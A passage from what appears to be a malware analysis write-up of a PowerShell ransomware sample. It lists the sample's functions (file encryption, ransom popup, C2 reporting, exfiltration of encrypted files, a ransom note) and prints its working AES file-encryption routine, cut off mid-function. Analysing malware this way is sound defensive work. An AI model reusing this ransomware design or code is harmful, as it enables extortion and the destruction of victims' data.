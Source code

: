      - `$I26`: Stores the ransom note file name.
     - `Invoke-AESEncryption`: Encrypts files using AES-256 encryption. Encrypts either text (-Text) or files (-Path) and output encrypted data as a Base64 string or a new .enc file.
     - `RemoveWallpaper`: Removes the desktop wallpaper and set a solid red background.
     - `PopUpRansom`: Displays a ransom pop-up window and a countdown timer before enabling the `Pay Now!` button. 
     - `R64Encoder`: Encodes text or file contents into a Base64 format.
     - `C2 Communication`: 
       - `GetStatus`: Checks if the C2 server is online.
       - `SendResults`: Send encryption results to the C2 server.
       - `SendClose`: Tell the C2 server that the process was completed.
       - `SendPay`: Tell the C2 server that the ransom was paid.
       - `SendOK`: Final confirmation to the C2 server.
     - `CreateReadme`: Creates `yaginote.txt` with: Ransom message and Bank Account.
     - `EncryptFiles`: Encrypts all files in a directory and deletes the original.
     - `ExfiltrateFiles`: Uploads encrypted file to the C2 server.
     - `CheckFiles`: Check if any `.enc` files exist in `$Directory`
     - `Main`: Execute the main flow. 
  
> From the code we could see the program flow will be:
> 1. Check the OS, the `args` and setup proxy for the C2
> 2. Generate AES key then encrypt the files and log them.
> 3. Send the results, logs to the C2 and exfiltrate `.enc` files.
> 4. Create a ransom `readme` note and display a GUI popup with `Pay Now!` button
> 5. Notify the C2 either `OK`, `Close` or `Pay Flags`


Let's analyze each function more carefully
#### AESEncryption
```powershell
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
  End {
      $m95I.Dispose()
```